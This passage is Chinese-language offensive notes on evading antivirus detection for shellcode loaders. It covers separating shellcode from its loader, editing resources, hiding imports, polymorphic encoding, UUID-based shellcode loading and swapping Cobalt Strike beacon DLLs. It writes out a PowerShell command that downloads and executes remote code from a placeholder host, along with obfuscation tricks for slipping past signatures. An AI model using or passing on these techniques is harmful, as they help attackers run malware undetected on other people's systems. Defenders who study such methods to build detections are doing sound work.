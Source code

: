 做法： 使用windows管道，socket通道

分离免杀，将shellcode写入到文件中和加载器分离开，在加载器启动执行时再将shellcode从文件当中读取进来。

5\. 修改资源

杀软会检测文件的描述，版本号，创建日期作为特征检测

做法： 使用restorator对目标修改资源文件

6\. 隐藏IAT

杀软检测导入表中是否存在可疑函数

做法： opt1 调用getProcessAddress获取所需函数地址

opt2  用汇编从Teb里找到kernel32.dll地址，再从其导出表中获取所需系统函数

7\. 二次编译免杀

使用msf中的多态编码器shikata\_ga\_nai

8\. 偏僻语言编写加载器 如nim

如 python反序列化加载python加载器（已失效）

9\. 系统函数白名单免杀-uuid方式（已失效)

利用系统函数UuidFromStringA( payload的uuid数组 ) 转化为shellcode加载进内存，

调用EnumSystemLocalesA(shellcode首地址 )

已有项目实现guid免杀

10\. cs中更换beacon.dll，dnsb.dll等

https://mp.weixin.qq.com/s/rEm17yOwX73vh7lcVESM8A windows下免杀思路分享

11\. powershell绕过

``powershell -c "IEX(New-Object  Net.WebClient).DownloadString('http://xxx.xxx.xxx/a')"`

` 

     powershell混淆绕过  -- 根据powershell语言特性，字符串转换，变量转换，编码，压缩等

修改加载器的特征

> 对`func_get_delegate_type`，`func_get_proc_address`两个函数重命名替换，对函数里面的一些变量进行重新定义
> 
> 重命名`$DoIt`为`$aaaa`
> 
> 修改IEX为I`EX
> 
> 修改Invoke为Inv'+'oke
> 
> 替换`$var_code`为`$acode`

  
	
> msf与cs的stager对比分析
		
	相同点： 通过WinInet系列函数远程加载stage并使用VirtualAlloc为其分配一块rwx的内存空间，最后转去执行stage	
